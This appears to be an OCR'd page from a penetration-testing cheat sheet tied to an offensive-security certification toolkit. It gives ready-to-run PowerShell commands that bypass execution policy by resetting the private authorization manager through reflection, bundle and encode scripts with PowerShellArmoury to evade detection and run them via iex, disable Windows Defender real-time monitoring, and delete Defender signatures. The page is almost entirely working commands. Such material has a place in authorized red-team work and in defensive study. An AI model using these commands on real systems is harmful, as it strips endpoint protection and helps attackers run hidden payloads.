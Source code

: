 ## PowerShell Bypass Execution Policy



```
# View the Execution Policy
Get-ExecutionPolicy
# List according to system levels
Get-ExecutionPolicy -List | Format-Table -AutoSize
# Bypass
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy
```

**Example:**

[![Main Logo](https://github.com/hackinaggie/OSEP-Tools-v2/raw/main/Other/ad_cs_imgs/Example_execution-policy.PNG)](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Other/ad_cs_imgs/Example_execution-policy.PNG)

## Evasion and obfuscation with PowerShellArmoury



#### Create an armoury



```
# If you want to create an armoury with default settings (note: this will not obfuscate at all besides base64 encoding)
. .\New-PSArmoury.ps1
New-PSArmoury
cat -raw .\MyArmoury.ps1 | iex
```

Reference: [Here](https://github.com/cfalta/PowerShellArmoury)

## Windows Defender



#### Disable Windows Defender



```
# Turn Off
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Disable Windows Defender and delete signatures



```
# Turn Off
"c:\Program Files\Windows Defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```
